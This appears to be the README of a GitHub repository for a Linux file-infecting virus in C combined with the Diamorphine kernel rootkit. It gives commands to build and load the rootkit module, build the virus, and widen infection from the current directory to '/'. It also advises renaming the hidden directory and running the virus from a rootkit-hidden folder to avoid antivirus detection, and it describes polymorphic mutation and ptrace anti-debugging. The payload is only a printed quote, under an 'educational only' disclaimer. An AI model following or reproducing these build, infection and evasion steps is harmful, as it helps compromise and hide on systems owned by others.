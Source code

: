 # Nestor_Makhno
Linux virus in C that uses mutation and rootkit functionality

Nestor Makhno is a simple Linux virus that uses a rootkit(Diamorphine) to help hide its tracks and avoid av detection. The historical Nestor Makhno was famous for a lot, but one thing was being the first to begin using machine guns on covered wagons. He didn't create machine guns or wagons, but he knew these things would work well together. His ideas are still credited as the first proto-tank and first drive-by shooting. The Diamorphine rootkit existed long before the virus code added here. Its mostly used to make the process invisible in the pids.c file. As-is, it will also be used to create a hidden directory in /dev/shm/diamorphine_secret_def_not_a_virus. To avoid detection we suggest renaming this directory in the code of simmple.c

$ grep mkdir virus/simple.c<br>
   mkdir("/dev/shm/diamorphine_secret_def_not_a_virus",0775);

Diamorphine will hide any folder on the system who's name begins with "diamorphine_secret". So be sure to include this with any locations that should be hidden. You may also want to build and run the virus portion of Nestor_Makhno from a folder like this to avoid dectection as well. 

To use this code, first go to the Diamorphine directory, build and install it:

$ cd ./Diamorphine
; make
; sudo insmod ./diamorphine.ko

If you expirence errors, you most likely do not have kernel headers installed. On Debian you may install them with the following:

$ sudo apt search linux-headers-$(uname -r)

Then go to the directory for the virus and build it:

$ cd ../virus
; make

To prevent abuse, there is no real payload used with this code. Instead only an infamous quote by the historical Nestor Makhno will be injected into binaries. After completing you will find a binary called 'Nester_Makhno' and another called 'hello' to be used for testing. The code is set here to only infect files in the same directory:

$ grep '^   scan' virus/simple.c<br>
   scan_dir(".", virus);

The above location may be editted to '/' or any desired location if you have a vm or sandbox. It should go without sayinig, but DO NOT RELEASE THIS CODE INTO THE WILD. THIS IS FOR TESTING AND EDUCATIONAL PURPOSES ONLY. I am not responsible for any damage this may cause and depending on your location, running this code may be illegal on devices you do not own. So you have been warned. 

Running the code you will see the quote from our payload: 

$ cd ./virus
; ./Nestor_Makhno<br>
Death to all those who stand in the way of freedom for the working people!
 
You can silence this by outputting to /dev/null. After this, you will find the hello binary will also excute this quote:

$ ./hello        
Death to all those who stand in the way of freedom for the working people!<br>
Hello!

This is despite this string not being found in the code of hello.c:

$ cat ./hello.c <br>
#include <stdio.h> <br>

int main(){ <br>
&nbsp;&nbsp;&nbsp;&nbsp;printf("Hello!\n");<br>
}<br>

Using virus strategies of the past, the modify.c file in the virus directory is used to randomly obscure this code's signature in memory. Basically making this a mutation virus as well. PTRACE has been used in trace.c to help prevent debugging. Combined with the rootkit functionality, this will make detection much more difficult, but not impossible.

If you wish to make changes to this code, the following line will need to be updated:

$ grep 'define PARASITE_LENGTH' simple.c<br>
#define PARASITE_LENGTH 14800 /* PARASITE_LENGTH the size of compiling virus */

This will need to match the number of bytes in the compiled binary:

$ ls -l Nestor_Makhno<br>
-rwxr-xr-x 1 user user 14800 Mar  9 02:19 Nestor_Makhno

Otherwise functionality of the virus might cease to work correctly.

Information on the historical Nestor Makhno may be found here:

https://en.wikipedia.org/wiki/Nestor_Makhno

Information on the Diamorphine may be found here:

https://github.com/bms8197/diamorphine 
